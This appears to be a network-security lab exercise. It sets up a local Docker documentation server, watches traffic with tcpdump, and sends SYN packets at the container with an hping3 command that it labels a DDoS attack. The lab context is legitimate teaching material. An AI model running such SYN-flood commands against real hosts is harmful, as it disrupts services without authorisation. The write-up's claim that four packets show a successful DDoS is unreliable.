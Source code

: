 # Task1

A prerequisite for this task a copy of data collector server is needed, open a terminal and execute the following command:

```git clone https://git.swarmlab.io:3000/docs/Documentation```


Start the data collector server with the following command:

```./build.sh network-scanning```


Output:
```
===> Build docs
swarmlab-documentation
swarmlab-documentation
Using default tag: latest
latest: Pulling from antora
Digest: sha256:843a767ff93237591635109791d45c2112d7263413925f29d3beb244eab7e331
Status: Image is up to date for hub.swarmlab.io:5480/antora:latest
hub.swarmlab.io:5480/antora:latest

-----------------------------------------------------------------------------------------

*** On Error ***

    Get https://hub.swarmlab.io:5480/v2/: x509: certificate
    Pulling …
    ERROR: Get https://hub.swarmlab.io:5480/v2/: x509: certificate signed by unknown authority

*** run ***

    ./0-get-certs.sh

-----------------------------------------------------------------------------------------

---------------------------- *** WSL2 ***  --------------------------

   With Docker Desktop running on WSL 2, users can use: http://127.0.0.1:8080

---------------------------- *********** ---------------------------


[clone] ...git.swarmlab.io:3000/docs/Documentation.git [##########################################]
eth0      Link encap:Ethernet  HWaddr 02:42:AC:11:00:02  
          inet addr:172.17.0.2  Bcast:172.17.255.255  Mask:255.255.0.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:2453 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1673 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:3653035 (3.4 MiB)  TX bytes:92843 (90.6 KiB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)

Starting up http-server, serving build/site
Available on:
  http://127.0.0.1:8080
  http://172.17.0.2:8080
Hit CTRL-C to stop the server
```

The DDOS attack will target the 172.17.0.2:8080 ip:port.
Open a terminal and start a tcpdump to locate the attack with the following command:

```sudo tcpdump```

Output(after attack):
```
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on veth737dcab, link-type EN10MB (Ethernet), capture size 262144 bytes
19:38:41.464435 IP ubuntu.1988 > 172.17.0.2.http-alt: Flags [S], seq 1852578829, win 512, length 0
19:38:41.464469 IP 172.17.0.2.http-alt > ubuntu.1988: Flags [S.], seq 2181594135, ack 1852578830, win 64240, options [mss 1460], length 0
19:38:41.464483 IP ubuntu.1988 > 172.17.0.2.http-alt: Flags [R], seq 1852578830, win 0, length 0
19:38:42.464619 IP ubuntu.1989 > 172.17.0.2.http-alt: Flags [S], seq 943577023, win 512, length 0
19:38:42.464666 IP 172.17.0.2.http-alt > ubuntu.1989: Flags [S.], seq 1890022353, ack 943577024, win 64240, options [mss 1460], length 0
19:38:42.464682 IP ubuntu.1989 > 172.17.0.2.http-alt: Flags [R], seq 943577024, win 0, length 0
19:38:43.465204 IP ubuntu.1990 > 172.17.0.2.http-alt: Flags [S], seq 1181352384, win 512, length 0
19:38:43.465252 IP 172.17.0.2.http-alt > ubuntu.1990: Flags [S.], seq 2871466929, ack 1181352385, win 64240, options [mss 1460], length 0
19:38:43.465269 IP ubuntu.1990 > 172.17.0.2.http-alt: Flags [R], seq 1181352385, win 0, length 0
19:38:44.465417 IP ubuntu.1991 > 172.17.0.2.http-alt: Flags [S], seq 1496283475, win 512, length 0
19:38:44.465460 IP 172.17.0.2.http-alt > ubuntu.1991: Flags [S.], seq 2364895447, ack 1496283476, win 64240, options [mss 1460], length 0
19:38:44.465477 IP ubuntu.1991 > 172.17.0.2.http-alt: Flags [R], seq 1496283476, win 0, length 0
19:39:41.924688 IP6 ubuntu.mdns > ff02::fb.mdns: 0 [2q] PTR (QM)? _ipps._tcp.local. PTR (QM)? _ipp._tcp.local. (45)
19:39:48.384077 IP6 ubuntu > ip6-allrouters: ICMP6, router solicitation, length 16
^C
14 packets captured
14 packets received by filter
0 packets dropped by kernel
```

Open a third terminal and launch the DDOS attack with the following command:

```sudo hping3 -S 172.17.0.2 -p 8080```

Output:

```
HPING 172.17.0.2 (docker0 172.17.0.2): S set, 40 headers + 0 data bytes
len=44 ip=172.17.0.2 ttl=64 DF id=0 sport=8080 flags=SA seq=0 win=64240 rtt=8.1 ms
len=44 ip=172.17.0.2 ttl=64 DF id=0 sport=8080 flags=SA seq=1 win=64240 rtt=7.6 ms
len=44 ip=172.17.0.2 ttl=64 DF id=0 sport=8080 flags=SA seq=2 win=64240 rtt=7.2 ms
len=44 ip=172.17.0.2 ttl=64 DF id=0 sport=8080 flags=SA seq=3 win=64240 rtt=6.7 ms
^C
--- 172.17.0.2 hping statistic ---
4 packets transmitted, 4 packets received, 0% packet loss
round-trip min/avg/max = 6.7/7.4/8.1 ms
```

Evidence of the attack being successful can be noticed in the tcpdump output (packets with zero length are a result of the attack)

